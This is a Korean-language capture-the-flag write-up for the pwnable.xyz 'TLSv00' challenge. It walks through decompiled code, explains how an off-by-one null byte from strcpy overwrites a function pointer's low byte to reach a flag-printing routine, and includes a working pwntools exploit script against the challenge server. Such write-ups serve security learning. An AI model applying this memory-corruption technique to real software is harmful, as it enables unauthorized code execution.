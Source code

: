 ```yaml
---
title: "[pwnable.xyz]TLSv00"
date: 2020-1-25
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


64비트 바이너리고 보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1번 메뉴다. `/dev/urandom `값을 가지고 키를 생성해주는데 처음에는 기본으로 63으로 인자를 넣어서 생성해준다. 이후에 원하는 사이즈만큼 할당 받을 수 있다.

```c
unsigned __int64 __fastcall generate_key(signed int a1)
{
  signed int i; // [rsp+18h] [rbp-58h]
  int fd; // [rsp+1Ch] [rbp-54h]
  char s[72]; // [rsp+20h] [rbp-50h]
  unsigned __int64 v5; // [rsp+68h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( a1 > 0 && (unsigned int)a1 <= 0x40 )
  {
    memset(s, 0, 72uLL);
    fd = open("/dev/urandom", 0);
    if ( fd == -1 )
    {
      puts("Can't open /dev/urandom");
      exit(1);
    }
    read(fd, s, a1);
    for ( i = 0; i < a1; ++i )
    {
      while ( !s[i] )
        read(fd, &s[i], 1uLL);
    }
    strcpy(key, s);
    close(fd);
  }
  else
  {
    puts("Invalid key size");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

2번 메뉴다. flag파일을 읽어와서 `generate_key` 에서 생성한 키와 xor연산해준다.

```c
int load_flag()
{
  unsigned int i; // [rsp+8h] [rbp-8h]
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/flag", 0);
  if ( fd == -1 )
  {
    puts("Can't open flag");
    exit(1);
  }
  read(fd, flag, 64uLL);
  for ( i = 0; i <= 63; ++i )
    flag[i] ^= key[i];
  return close(fd);
}
```

y를 입력하면 함수 포인터를 실행해준다. 근데 `do_comment` 를 전에 값을 넣어줬다면 그거 return해준다.

```c
__int64 print_flag()
{
  __int64 result; // rax

  puts("WARNING: NOT IMPLEMENTED.");
  result = (unsigned __int8)do_comment;
  if ( !(_BYTE)do_comment )
  {
    printf("Wanna take a survey instead? ");
    if ( getchar() == 'y' )
      do_comment = (__int64 (*)(void))f_do_comment;
    result = do_comment();
  }
  return result;
}
```

off-by-one 취약점이 터진다. 

```
.bss:0000000000202040 ; char key[64]
.bss:0000000000202040 key             db 40h dup(?)           ; DATA XREF: generate_key+E4↑o
.bss:0000000000202040                                         ; load_flag+73↑o
.bss:0000000000202080                 public do_comment
.bss:0000000000202080 ; __int64 (*do_comment)(void)
.bss:0000000000202080 do_comment      dq ?                    ; DATA XREF: print_flag+10↑o
.bss:0000000000202080                                         ; print_flag+40↑w ...
.bss:0000000000202088                 align 20h
.bss:00000000002020A0                 public flag
.bss:00000000002020A0 ; _BYTE flag[64]
.bss:00000000002020A0 flag            db 40h dup(?)           ; DATA XREF: real_print_flag+4↑o
.bss:00000000002020A0                                         ; load_flag+45↑o ...
.bss:00000000002020A0 _bss            ends
```

자세히 보면 key의 크기를 원하는 만큼 지정해서 입력할 수 있다. 근데 여기서 key를 strcpy로 복사하다보니 마지막에 널바이트가 붙어서 1 byte overflow가 난다. 그래서 64만큼 사이즈를 지정하면 do_comment 1바이트를 덮을 수 있다. 그러면 함수 포인터니까 하위 바이트가 널바이트가 된다. 

0xB1F 주소를 갖는 `f_do_comment` 함수 포인터가 하위 바이트가 널바이트가 추가되면 0xB00주소를 갖게 된다. 그러면 0xB00주소를 실행한다. 이 주소에는 `real_print_flag` 함수가 있다. 이를 실행시켜서 값을 뽑아낼 수 있다. 그리고 0과 xor하면 그대로 그 수가 나오는걸 이용해서 풀면 된다. 

> exploit.py

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
#p = remote('svc.pwnable.xyz',30006)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def generate(size):
	sla('>','1')
	sla(':',str(size))

def loadflag():
	sla('>','2')

def printflag(chk): # if 'y' -> f_do_comment(); function pointer
	sla('>','3')
	sla('?',chk);
	#,comment
	#if chk == 'y':
	#	sa(':',comment)
	#else:
	#	return

flag = 'F'
for i in range(1,0x31):
	p = remote('svc.pwnable.xyz',30006)
	printflag('y') # setting function pointer
	generate(i) # strcpy(key, s); -> \x00
	loadflag()
	generate(64) # off-by-one -> null byte overflow = 0xB1F -> 0xB00
	printflag('n') # return do_comment() -> real_print_flag()
	p.recv()
	flag += p.recv(0x31)[i]
	#flag+=p.recvline()[i+1]
	log.info(str(i)+' : '+flag)
	p.close()

# real_print_flag -> 0xB00
# f_do_comment -> 0xB1F
# key ~ do_commnet -> 64

p.interactive()
```

